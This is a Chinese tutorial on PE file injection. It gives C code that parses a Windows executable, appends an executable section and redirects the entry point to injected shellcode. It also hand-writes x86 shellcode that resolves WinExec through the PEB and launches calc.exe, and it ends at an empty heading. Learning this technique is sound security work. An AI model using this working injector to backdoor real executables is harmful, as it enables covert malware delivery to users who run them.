# PE 文件注入

PE 文件注入是软件安全的基本功，目的是向 PE 文件中注入一段 shellcode。
注入的手段一半有两种：

- 寻找最大的代码空白，cave mine，将 shellcode 写入 cave 中。这种方式比较方便，缺点是只适合较小的 shellcode，windows 上的 shellcode 要比 linux 上的 shellcode 大许多，这种方式的泛用性不高。
- 新增 PE 节，这种方式修改 PE 文件的节头表和节，可以插入任意大小的 shellcode。

PE 文件注入主要包括两个方面：

- 编写 shellcode
- 注入 shellcode

注入 shellcode 相对比较简单，下面介绍新增 PE 节实现 PE 注入的方法。

## x86 PE 文件布局

如果不了解 PE 文件的布局，需要先了解一下 PE 文件相关数据结构和整体布局。

俗话说，一图胜千言，下面是一张关于 PE 文件结构的图片，绘制了一个简易 PE 文件的结构。如果对 PE 文件的结构不了解，建议仔细查看。


上半部分绘制了 PE 文件的结构，下半部分简述了 PE 文件的加载过程。

了解了基本的 PE 文件布局，下面是一张有关 PE 文件引入表、引出表、资源节和其他节的图片。


绘制了大部分的 PE 文件结构，如果对于哪一部分不了解，可以查看相关说明。

## PE 文件解析

在对 PE 文件进行修改之前，最好对 PE 文件进行解析。关于 PE 文件解析的开源库有许多，功能也比较丰富，比如基于 c++ 的 libpeconv，基于 python 的 pymem 等等。以学习 PE 文件结构为目的，这里实现了一个最基础的 PE 解析功能。

### PE 结构体定义

首先定义一个 PE 文件结构体

```c
typedef struct _PE_file {
	BYTE* innerBuffer;
	PIMAGE_DOS_HEADER pimageDOSHeader;
	PIMAGE_NT_HEADERS pimageNTHeaders;
	PIMAGE_SECTION_HEADER ppimageSectionHeader[MAX_SECTIONS];
	DWORD fileSize;
	BYTE* ppsection[MAX_SECTIONS];
} PE_file;
```

PE 文件的解析分为两个步骤，第一步将 PE 文件原始数据读入内存中。第二步解析内存中的数据。

自上而下设计 PE 文件解析函数，首先将 PE 文件读入内存中，随后解析 DOS Header，NT Headers以及Sections。

```c
void _PEParse(PE_file* ppeFile) {
	DBG("parsing DOS Header...\n");
	parseDOSHeader(ppeFile);
	DBG("parsing NT headers...\n");
	parseNTHeaders(ppeFile);
	DBG("parsing section headers...\n");
	parseSections(ppeFile);
	DBG("parsing finished...\n");
}

void PEParse(PE_file *ppeFile, FILE *file) {
	readToInnerBuffer(ppeFile, file);
	_PEParse(ppeFile);
}
```

这种设计方式的优点是可以灵活地调用解析 PE 文件的部分结构。

### 将 PE 读入内存中

将文件读入内存的方式有许多。比如利用 MapViewOfFile + memcpy 的方式读入文件，可以将文件内容映射到对应的进程内存空间中，这种方式对于大文件的读取十分高效，原理涉及到了 windows 操作系统的相关机制，还不太了解。也可以利用 c 标准中的 fread 函数实现，这种方式的优点是和 linux 平台接口统一。

```c
void readToInnerBuffer(PE_file* ppeFile, FILE* file) {
	// save PE to inner buffer
	fseek(file, 0, SEEK_END);
	long fileSize = ftell(file);
	ppeFile->fileSize = fileSize;
	ppeFile->innerBuffer = (char*)malloc(fileSize * sizeof(char));
	if (ppeFile->innerBuffer == NULL) {
		perror("malloc");
		exit(EXIT_FAILURE);
	}
	fseek(file, 0, SEEK_SET);
	fread(ppeFile->innerBuffer, 1, fileSize, file);
	fclose(file);
}
```

这里使用了 malloc 在进程的堆上申请空间，在 libpeconv 中使用 VirtualAlloc 在调用进程中申请虚拟页空间，微软文档为 VirtualAlloc 的描述如下：

> Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process. Memory allocated by this function is automatically initialized to zero.

我对于 Windows API 基本上没有概念，所以使用 malloc 在堆上进行内存分配，分配的空间被 Windows 初始化为 0xcd，这一点与 GCC 是不一样的，需要注意一下。

### 解析 Headers 和 Sections

解析 PE Headers 和 Sections 的代码逻辑非常简单，将定义的 PE 文件的结构体内部的指针指向 innerBuffer 中对应位置即可。

```c
void parseDOSHeader(PE_file* ppeFile) {
	ppeFile->pimageDOSHeader = (PIMAGE_DOS_HEADER)ppeFile->innerBuffer;
	if (ppeFile->pimageDOSHeader->e_magic != IMAGE_DOS_SIGNATURE) {
		fprintf(stderr, "invalid DOS magic: %x", ppeFile->pimageDOSHeader->e_magic);
		exit(EXIT_FAILURE);
	}
}

void parseNTHeaders(PE_file* ppeFile) {
	ppeFile->pimageNTHeaders = (PIMAGE_NT_HEADERS)((int)ppeFile->innerBuffer + ppeFile->pimageDOSHeader->e_lfanew);
	if (ppeFile->pimageNTHeaders->Signature != IMAGE_NT_SIGNATURE) {
		fprintf(stderr, "invalid NT headers signature: %x", ppeFile->pimageNTHeaders->Signature);
		exit(EXIT_FAILURE);
	}
	if (ppeFile->pimageNTHeaders->OptionalHeader.Magic != IMAGE_NT_OPTIONAL_HDR_MAGIC) {
		fprintf(stderr, "invalid Optional headers magic: %x", ppeFile->pimageNTHeaders->OptionalHeader.Magic);
		exit(EXIT_FAILURE);
	}
}

void parseSections(PE_file* ppeFile) {
	size_t sectionNumbers = getSectionNumbers(ppeFile);
	void* sectionHeadersBase = (void*)((int)getSectionHeadersOffset(ppeFile) + (int)ppeFile->innerBuffer);
	for (size_t i = 0; i < sectionNumbers; i++) {
		ppeFile->ppimageSectionHeader[i] = (PIMAGE_SECTION_HEADER)sectionHeadersBase + i;
	}
	for (size_t i = 0; i < sectionNumbers; i++) {
		void* sectionBase = (void*)((int)ppeFile->ppimageSectionHeader[i]->PointerToRawData + (int)ppeFile->innerBuffer);
		ppeFile->ppsection[i] = sectionBase;
	}
}
```

至此，PE文件的解析已经完成，以后可以利用 PE 文件结构体中数据结构操纵 PE 文件。为了后续处理方便，比如需要保存 PE 文件，释放 PE 文件等，所以也编写了对应的代码。

```c
void PESave(PE_file* pefile, char* savePath) {
	FILE* fp;
	fopen_s(&fp, savePath, "wb");
	if (fp == NULL) {
		perror("fopen_s");
		exit(EXIT_FAILURE);
	}
	fwrite(pefile->innerBuffer, 1, pefile->fileSize, fp);
	fclose(fp);
}

void PEFree(PE_file* pefile) {
	free(pefile->innerBuffer);
}
```

## 向 PE 中插入新节

向 PE 文件中新增节的流程总结：

- 根据当前节表布局，计算新增节的 PointerToRaw
- 复制新节内容到对应地址
- 计算新节的相关参数，添加新节头
- 修改 FileHeader 中的 NumberOfSections
- 修改 OptionalHeader 中的 SizeOfImage

代码实现的思路：

### 设计插入新节的函数

首先大概设计出函数的定义

```c
void insertNewCodeSection(PE_file* ppefile, BYTE* code, DWORD codeSize);
```

这个函数接受参数为 PE 文件、新增节内容、新增节大小。

根据前面的设计，PE 文件的内容保存在通过 malloc 分配的 innerBuffer 里面，新增节需要修改文件的大小，也就是要修改 innerBuffer 的大小，可以使用 realloc 修改 innerBuffer 的大小。大小修改为多少呢？这个值是 codeSize 使用 FileAlignment 对齐后的大小。

> 系统在加载 PE 文件前可能会根据 FileAlignment 和所有节的 rawSize 检查 PE 文件的大小，如果 PE 文件大小小于 PointerToRaw + rawSize，那么这个节在映射到内存时就会出错，因此不能通过系统检查。

```c
void insertNewCodeSection(PE_file* ppefile, BYTE* code, DWORD codeSize) {
	size_t fileAlignment = ppefile->pimageNTHeaders->OptionalHeader.FileAlignment;
	size_t sectionAlignment = ppefile->pimageNTHeaders->OptionalHeader.SectionAlignment;
	size_t rawSize = CEIL(codeSize, fileAlignment) * fileAlignment;
	size_t codeSizeAligned = CEIL(codeSize, sectionAlignment) * sectionAlignment;
	size_t sectionNumbers = getSectionNumbers(ppefile);
```

### 计算新节的属性

下一步需要计算新增节的 VirtualAddress 和 PointerToRaw，VirtualAddress 是节被加载到内存时的 RVA，可以将新增节设计在最后一个节的后面，在这种情况下，新增节的 VirtualAddress 等于最后一个节的 VirtualAddress 加上最后一个节的 VirtualSize（使用 SectionAlignment 对齐）。

PointerToRaw 的计算与 VirtualAddress 类似，新增节的 PointerToRaw 等于最后一个节的 PointerToRaw 加上最后一个节的 rawSize（使用 FileAlignment 对齐）

```c
	DWORD destVirtualAddr = ppefile->ppimageSectionHeader[sectionNumbers - 1]->VirtualAddress +
		CEIL(ppefile->ppimageSectionHeader[sectionNumbers - 1]->Misc.VirtualSize, sectionAlignment) *
		sectionAlignment;
	DWORD pointerToRawData = ppefile->ppimageSectionHeader[sectionNumbers - 1]->PointerToRawData +
		ppefile->ppimageSectionHeader[sectionNumbers - 1]->SizeOfRawData;
```

到这里我们已经获取了新增节的所有属性，下面定义新增节头结构体：

```c
	IMAGE_SECTION_HEADER hdr = {
		.Name = {'.', 'n', 'e', 'w', 0, 0, 0, 0},
		.Misc.VirtualSize = rawSize,
		.VirtualAddress = destVirtualAddr,
		.SizeOfRawData = rawSize,
		.PointerToRawData = pointerToRawData,
		.PointerToRelocations = 0,
		.PointerToLinenumbers = 0,
		.NumberOfLinenumbers = 0,
		.NumberOfRelocations = 0,
		.Characteristics = IMAGE_SCN_CNT_CODE | IMAGE_SCN_MEM_EXECUTE| IMAGE_SCN_MEM_READ
	};
```

新节的名字为 .new，新节的属性设置和 code 节相同。

### 插入新节的节头

下面将新节头插入 PE 文件中

```c
void insertNewSectionHeader(PE_file* ppefile, PIMAGE_SECTION_HEADER phdr) {
	DWORD destOffset = getSectionHeadersOffset(ppefile)
		+ getSectionNumbers(ppefile) * sizeof(IMAGE_SECTION_HEADER);
	BYTE* destAddr = ppefile->innerBuffer + destOffset;
	if (destOffset + sizeof(IMAGE_SECTION_HEADER) > ppefile->pimageNTHeaders->OptionalHeader.SizeOfHeaders) {
		fprintf(stderr, "addr out of limit\n");
		exit(EXIT_FAILURE);
	}
	memcpy(destAddr, phdr, sizeof(IMAGE_SECTION_HEADER));
	ppefile->ppimageSectionHeader[getSectionNumbers(ppefile)] = (PIMAGE_SECTION_HEADER)destAddr;
	ppefile->pimageNTHeaders->FileHeader.NumberOfSections += 1;
}
```

接下来剩下将新节内容复制到对应区域，使用 realloc 扩大 innerBuffer

```c
	BYTE* oldBuffer = ppefile->innerBuffer;
	ppefile->innerBuffer = realloc(ppefile->innerBuffer, ppefile->fileSize + rawSize);
	if (ppefile->innerBuffer == NULL) {
		perror("realloc");
		exit(EXIT_FAILURE);
	}
	if (ppefile->innerBuffer != oldBuffer) {
		DBG("reparsing...\n");
		_PEParse(ppefile);
	}
	memset(ppefile->innerBuffer + ppefile->fileSize, 0, rawSize);
	memcpy(ppefile->innerBuffer + ppefile->fileSize, code, codeSize);
```

保存旧的 innerBuffer 指针，如果 innerBuffer 的值发生改变，说明系统重新分配了空间。那么 PE 结构体中的指针也需要重新解析。

最后修改文件大小和 OptionalHeader 的 SizeOfImage。

```c
	ppefile->fileSize += rawSize;
	ppefile->pimageNTHeaders->OptionalHeader.SizeOfImage += codeSizeAligned;
	DBG("insert finished, reparsing sections...\n");
	parseSections(ppefile);
```

codeSizeAligned 时 code 使用 sectionAlignment 的大小，因为 SizeOfImage 是 PE 文件加载到内存中的大小。

### 测试新增节的代码

PE 新增节的代码到这里就结束了，下面对这段代码进行测试。

```c

int main(int ac, const char **av) {
	if (ac < 2) {
		printf("usage: %s [filename]\n", av[0]);
		exit(0);
	}
	FILE* file = fopen(av[1], "rb");
	if (file == NULL) {
		fprintf(stderr, "%s: No such file or directory\n", av[1]);
		exit(EXIT_FAILURE);
	}
	PE_file pefile;
	PEParse(&pefile, file);

	printf("MZ signature:\t%x\n", pefile.pimageDOSHeader->e_magic);
	printf("ImageBase:\t%08x\n", getImageBase(&pefile));
	printf("EntryPoint:\t%08x\n", getEntryPoint(&pefile));
	printf("%-8s%-8s\n", "Name", "RVA");
	for (size_t i = 0; i < pefile.pimageNTHeaders->FileHeader.NumberOfSections; i++) {
		printf("%-8s%08x\n",
			pefile.ppimageSectionHeader[i]->Name, pefile.ppimageSectionHeader[i]->VirtualAddress);
	}
	int index;
	DWORD caveSize = findLargestCave(&pefile, &index);
	printf("largest cave: %s, cave size: %08x\n", pefile.ppimageSectionHeader[index]->Name, caveSize);
	
	insertNewCodeSection(&pefile, sc, 200);
	DWORD newEntryPoint =
		pefile.ppimageSectionHeader[pefile.pimageNTHeaders->FileHeader.NumberOfSections - 1]->VirtualAddress;
	pefile.pimageNTHeaders->OptionalHeader.AddressOfEntryPoint = newEntryPoint;
	printf("change Adress of Entry Point to %x\n", newEntryPoint);
	printf("%-8s%-8s\n", "Name", "RVA");
	for (size_t i = 0; i < pefile.pimageNTHeaders->FileHeader.NumberOfSections; i++) {
		printf("%-8s%08x\n",
			pefile.ppimageSectionHeader[i]->Name, pefile.ppimageSectionHeader[i]->VirtualAddress);
	}
	PESave(&pefile, "./new_pe.exe");
	fclose(file);
	PEFree(&pefile);
}
```

测试代码打印了一部分 PE 文件参数，然后注入了一段 shellcode，并且修改程序入口点为 shellcode。

注入的 shellcode 如下，功能是调出计算器程序。

```c
unsigned char sc[] = 
"\x50\x53\x51\x52\x56\x57\x55\x89"
"\xe5\x83\xec\x18\x31\xf6\x56\x6a"
"\x63\x66\x68\x78\x65\x68\x57\x69"
"\x6e\x45\x89\x65\xfc\x31\xf6\x64"
"\x8b\x5e\x30\x8b\x5b\x0c\x8b\x5b"
"\x14\x8b\x1b\x8b\x1b\x8b\x5b\x10"
"\x89\x5d\xf8\x31\xc0\x8b\x43\x3c"
"\x01\xd8\x8b\x40\x78\x01\xd8\x8b"
"\x48\x24\x01\xd9\x89\x4d\xf4\x8b"
"\x78\x20\x01\xdf\x89\x7d\xf0\x8b"
"\x50\x1c\x01\xda\x89\x55\xec\x8b"
"\x58\x14\x31\xc0\x8b\x55\xf8\x8b"
"\x7d\xf0\x8b\x75\xfc\x31\xc9\xfc"
"\x8b\x3c\x87\x01\xd7\x66\x83\xc1"
"\x08\xf3\xa6\x74\x0a\x40\x39\xd8"
"\x72\xe5\x83\xc4\x26\xeb\x41\x8b"
"\x4d\xf4\x89\xd3\x8b\x55\xec\x66"
"\x8b\x04\x41\x8b\x04\x82\x01\xd8"
"\x31\xd2\x52\x68\x2e\x65\x78\x65"
"\x68\x63\x61\x6c\x63\x68\x6d\x33"
"\x32\x5c\x68\x79\x73\x74\x65\x68"
"\x77\x73\x5c\x53\x68\x69\x6e\x64"
"\x6f\x68\x43\x3a\x5c\x57\x89\xe6"
"\x6a\x0a\x56\xff\xd0\x83\xc4\x46"
"\x5d\x5f\x5e\x5a\x59\x5b\x58\xc3";
```

选取 PEView.exe 为测试对象，可以看到如下的输出结果：
```shell
parsing DOS Header...
parsing NT headers...
parsing section headers...
parsing finished...
MZ signature:   5a4d
ImageBase:      00400000
EntryPoint:     00001000
Name    RVA
code    00001000
data    0000a000
const   0000c000
.rsrc   00010000
.idata  00014000
largest cave: code, cave size: 00000ef0
parsing DOS Header...
parsing NT headers...
parsing section headers...
parsing finished...
reparsing...
parsing DOS Header...
parsing NT headers...
parsing section headers...
parsing finished...
insert finished, reparsing sections...
change Adress of Entry Point to 15000
Name    RVA
code    00001000
data    0000a000
const   0000c000
.rsrc   00010000
.idata  00014000
.new    00015000
```
可以看到新插入的节，名字为 .new，RVA 为 0x00015000。同时，打开 new_pe.exe，就会弹出计算器。

## 编写 shellcode

### 手动编写 shellcode

在了解如何从 PE 文件自动生成 shellcode 之前，有必要了解一下如何手动编写 shellcode。

这里只说明如何编写 x86 32bit shellcode。在 windows 上编写 shellcode 要比 linux 麻烦许多，下面会看到这一点。首先需要对 Windows 的架构有一个基础的了解，可以看下面的图片，分界线上面的都在用户空间中，下面的都是内核空间中。

#### Windows 系统架构


图片链接：[deeper-into-windows-architecture](https://docs.microsoft.com/en-us/archive/blogs/hanybarakat/deeper-into-windows-architecture)

Windows 中，进程不能直接访问系统调用，进程通过调用 `WinAPI`，`WinAPI` 从内部调用 `Native API(NtAPI)`，最后访问系统调用。`NtAPI` 的文档没有被公开，在 `ntdll.dll` 中实现，在用户空间抽象层的最底层。

`WinAPI` 中被公开文档的函数储存在 `kernel32.dll`, `advapi32.dll`, `gdi32.dll` 等 dll 里面。其中，像文件系统、进程、设备等基础服务相关函数都在 `kernel32.dll` 中。

在 Windows 中写 shellcode，需要利用 `WinAPI` 或者 `NtAPI`。有希望的是，每一个进程都会引入 `ntdll.dll` 和 `kernel32.dll` 。

可以使用 `SystemInternals Suite` 中的 `ListDlls` 查看 PE 导入的 DLL 文件，查看 `explorer.exe` 导入的 DLL 文件：



查看 `notepad.exe` 导入的 DLL 文件



可以编写一个简单的程序，只有一个死循环，查看它引入了哪些 DLL 文件。

```asm
format PE console
use32
entry start
    start:
        jmp $
```

使用 `fasm` 进行编译，运行之后使用 `ListDLLs` 查看



可以发现，最简单的程序也引入了 `Kernel32.dll` 和 `ntdll.dll`，并且 DLL 文件的地址是相同的。这是因为系统保留了一片内存加载这些 DLL 文件，当进程需要时就用指针或者句柄的方式引用。不同的机器上地址不同，并且随着每一次开机变化。

下面编写一个使用 `WinExec` 函数运行 `calc.exe` 的 `shellcode`，即上面测试过程中用到的 `shellcode`。`WinExec` 有两个参数，由 `kernel32.dll` 导出。

#### 查找 DLL 地址

[TEB](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block) 是 Windows 系统中每一个线程都有的结构，储存线程的信息，`FS` 段寄存器存放着 `TEB` 的地址。

`TEB` 中有一个成员是指向 [PEB](https://en.wikipedia.org/wiki/Process_Environment_Block) 的指针，`PEB` 中存放着进程相关信息。`TEB+0x30` 存放指向 `PEB` 的指针。

`PEB+0x0c` 存放着指向 `PEB_LDR_DATA` 的指针，这个结构存放着已经加载的 DLL 的信息。

```c
typedef struct _PEB_LDR_DATA
{
     ULONG Length;
     UCHAR Initialized;
     PVOID SsHandle;
     LIST_ENTRY InLoadOrderModuleList;
     LIST_ENTRY InMemoryOrderModuleList;
     LIST_ENTRY InInitializationOrderModuleList;
     PVOID EntryInProgress;
} PEB_LDR_DATA, *PPEB_LDR_DATA;
```

从结构体的定义可以看到，`PEB_LDR_DATA` 存放着三个双向链表。

- `InInitializationOrderModuleList` 按照初始化的顺序存放 `DLL` 信息。
- `InMemoryOrderModuleList` 按照在内存中出现的顺序存放 `DLL` 信息。

在 `Vista` 之前，`InInitializationOrderModuleList` 前两个 `DLL` 分别为 `ntdll.dll` 和 `kernel32.dll`，`Vista` 之后，第二个 `DLL` 变为了 `kernelbase.dll`。

`InMemoryOrderModuleList` 中，第二个和第三个 `DLL` 分别为 `ntdll.dll` 和 `kernel32.dll`，对于目前的 Windows 系统都适用。

`InMemoryOrderModuleList` 存放在偏移量为 0x14 的位置上，
`DLL` 地址在 `LIST_ENTRY` 偏移量为 0x10 的位置上。

因此，查找 `kernel32.dll` 的地址的步骤总结如下：

- 从 `fs:0x30` 获取 `PEB` 的地址
- 获取 `PEB_LDR_DATA` 的地址(偏移量 0x0c)
- 获取 `InMemoryOrderModuleList` 的地址（偏移量 0x14）
- 获取第二个 `LIST_ENTRY(ntdll.dll)` 的地址（偏移量 0x00）
- 获取第三个 `LIST_ENTRY(kernel32.dll)` 的地址（偏移量 0x00）
- 获取 `kernel32.dll` 的地址（偏移量 0x10）

使用汇编编写代码如下：

```asm
    mov ebx, [fs:0x30]        ; &PEB
    mov ebx, [ebx + 0x0c]   ; &PEB_LDR_DATA
    mov ebx, [ebx + 0x14]   ; &InMemoryModuleList
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next(ntdll.dll)
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next->next(kernel32.dll)
    mov ebx, [ebx + 0x10]   ; InMemoryOrderModuleList->next->next->base
```

下面的图可以帮助理解这个过程。


如果要执行 shellcode ，或者单步解释执行汇编语言，推荐使用 [WinREPL](https://github.com/jeperez/WinREPL)。



#### 查找函数地址

现在已经得到了 `kernel32.dll` 的基址，现在来找 `WinExec` 函数的地址。如果对于函数的引入引出机制非常了解的话，下面的步骤很快就可以理解。建议首先熟悉以下函数的引入引出机制。

现在，`kernel32.dll` 被加载入内存中。下面就可以使用 `RVA` 来查找相关结构。

- `RVA=0x3c` 位置存放 `PE Signature` 的 `RVA`，值应当是 `0x5045`。
- `PE Signature` 偏移 0x78 字节的位置存放 `Export Table` 的 `RVA`。
- `Export Table` 偏移 0x14 字节的位置存放导出函数的数目。
- `Export Table` 偏移 0x1c 的位置存放 `Address Table` 的 `RVA`，存放导出函数的函数地址。
- `Export Table` 偏移 0x20 的位置存放 `Name Pointer Table` 的 `RVA`，存放导出函数名字字符串的指针。
- `Export Table` 偏移 0x24 的位置存放 `Ordinal Table` 的 `RVA`，存放导出函数的序号。

查找 `WinExec` 函数地址的过程：

1. 查找 `PE Signature` 的 `RVA`。（base address + 0x3c）
2. 查找 `PE Signature` 的地址。（base address + RVA of PE Signature）
3. 查找 `Export Table` 的 `RVA`。（address of PE Signature + 0x78）
4. 查找 `Export Table` 的地址。（base address + RVA of Export Table）
5. 查找导出函数的数目。（address of Export Table + 0x14）
6. 查找 `Address Table` 的 `RVA`。（address of Export Table + 0x1c）
7. 查找 `Address Table` 的地址。（base address + RVA of Address Table）
8. 查找 `Name Pointer Table` 的 `RVA`。（address of Export Table + 0x20）
9. 查找 `Name Pointer Table` 的地址。（base address + RVA of Name Pointer Table）
10. 查找 `Ordinal Table` 的 `RVA`。（address of Export Table + 0x24）
11. 查找 `Ordinal Table` 的地址。（base address + RVA of Ordinal Table）
12. 遍历 `Name Pointer Table`，与 `WinExec` 比较并保存位置。
13. 在 `Ordinal Table` 中查找 `WinExec` 的序号。（address of Ordinal Table + 2 * position），`Ordinal Table` 每个表项 2 个字节。
14. 在 `Address Table` 中查找 `WinExec` 的地址。（address of Address Table + 4 * ordinal），`Address Table` 每个表项 4 个字节。
15. 查找函数的地址。（base address + function RVA）

如果还是不太理解，可以仔细看一看下面的动图。



还有在 PEView 中模拟上面的过程的动图。


理解了整个过程之后，使用汇编代码实现：

```asm
start:
    ; establish a new stack frame
    push ebp
    mov ebp, esp

    sub esp, 0x18           ; alloc for local variables
    
    xor esi, esi
    push esi                ; null terminated
    push 0x63
    push 0x6578
    push 0x456e6957
    mov [ebp - 4], esp      ; var4 = "WinExec\x00"

    ; find kernel32.dll
    mov ebx, [fs:0x30]       ; &PEB
    mov ebx, [ebx + 0x0c]   ; &PEB_LDR_DATA
    mov ebx, [ebx + 0x14]   ; &InMemoryModuleList
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next(ntdll.dll)
    mov ebx, [ebx]          ; InMemoryOrderModuleList->next->next(kernel32.dll)
    mov ebx, [ebx + 0x10]   ; InMemoryOrderModuleList->next->next->base
    mov [ebp - 8], ebx      ; var8 = kernel32.dll base address

    ; find WinExec Address
    mov eax, [ebx + 0x3c]   ; RVA of PE signature
    add eax, ebx            ; Address of PE signature
    mov eax, [eax + 0x78]   ; RVA of Export Table
    add eax, ebx            ; Address of Export Table

    mov ecx, [eax + 0x24]   ; RVA of Ordinal Table
    add ecx, ebx            ; address of Ordinal Table
    mov [ebp - 0x0c], ecx   ; var12 = address of Ordinal Table

    mov edi, [eax + 0x20]   ; RVA of Name Pointer Table
    add edi, ebx            ; address of Name Pointer Table
    mov [ebp - 0x10], edi   ; var16 = address of Name Pointer Table

    mov edx, [eax + 0x1c]   ; RVA of Address Table
    add edx, ebx            ; Address of Address Table
    mov [ebp - 0x14], edx   ; var20 = address of Address Table

    mov edx, [eax + 0x14]   ; Number of exported functions

    xor eax, eax            ; counter = 0
.loop:
    mov edi, [ebp - 0x10]   ; edi = var16 = address of Name Pointer Table
    mov esi, [ebp - 4]      ; esi = var4 = "WinExec\x00"
    xor ecx, ecx

    cld                     ; set DF = 0 process string left to right
    mov edi, [edi + eax * 4]; Entry of Name Pointer Table is 4 bytes long

    add edi, ebx            ; address of string
    add cx, 8               ; length to compare
    repe cmpsb              ; compare first 8 bytes in
                            ; esi and edi. ZF=1 if equal, ZF=0 if not
    jz start.found

    inc eax                 ; counter++
    cmp eax, edx            ; check if last function is reached
    jb start.loop

    add esp, 0x26
    jmp start.end           ; not found, jmp to end
.found:
    ;  eax holds the position
    mov ecx, [ebp - 0x0c]   ; ecx = var12 = address of Ordinal Table
    mov edx, [ebp - 0x14]   ; edx = var20 = address of Address Table

    mov ax, [ecx + eax * 2] ; ax = ordinal number
    mov eax, [edx + eax * 4]; eax = RVA of function
    add eax, ebx            ; eax = address of fuction
    add esp, 0x26           ; clear the stack

.end:
    pop ebp
    ret
```

#### 调用函数

找到函数地址之后，准备函数参数并调用。汇编代码：

```asm
    ; call function
    xor edx, edx
    push edx		        ; null termination
    push 6578652eh
    push 636c6163h
    push 5c32336dh
    push 65747379h
    push 535c7377h
    push 6f646e69h
    push 575c3a43h
    mov esi, esp            ; esi -> "C:\Windows\System32\calc.exe"
    
    push 10                 ; window state SW_SHOWDEFAULT
    push esi                ; "C:\Windows\System32\calc.exe"
    call eax                ; WinExec
```

#### 调整 shellcode

